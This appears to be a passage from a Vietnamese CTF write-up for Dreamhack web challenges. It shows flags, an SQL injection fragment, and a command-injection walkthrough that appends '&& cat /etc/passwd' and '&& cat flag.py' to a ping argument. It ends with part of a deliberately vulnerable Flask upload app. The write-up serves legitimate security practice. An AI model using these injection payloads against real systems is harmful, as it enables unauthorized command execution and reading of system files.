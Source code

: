 ![image](https://hackmd.io/_uploads/SyJzWFK7yl.png)

Flag : DH{c57d0dc12bb9ff023faf9a0e2b49e470a77271ef}




'union select null, null, null from ...

## command-injection-chatgpt

![image](https://hackmd.io/_uploads/HyAifuL4kg.png)

<details><summary>app.py</summary></details>

Bài này là điển hình của command injection
Mình sẽ thử sử dụng payload sau 
```1.1.1.1 && cat /etc/passwd``` 
thì cmd sẽ thành 
```ping -c 3 1.1.1.1 && cat /etc/passwd```
khi đó lệnh cat /etc/passwd sẽ được thực thi sau lệnh ping 

![image](https://hackmd.io/_uploads/HkK6G_8N1g.png)

Cuối cùng mình đổi lại file để đọc là flag.py và mình lấy được flag

```1.1.1.1 && cat flag.py```

![image](https://hackmd.io/_uploads/B1Y0z_LVyg.png)

Flag : DH{chatGPT_knows_what_the_ping_is}


## file-donwload-1

![image](https://hackmd.io/_uploads/S1fRTZ8VJg.png)

<details>
<summary>app.py</summary>

```python
#!/usr/bin/env python3
import os
import shutil

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)

UPLOAD_DIR = 'uploads'


@APP.route('/')
def index():
    files = os.listdir(UPLOAD_DIR)
    return render_template('index.html', files=files)


@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

```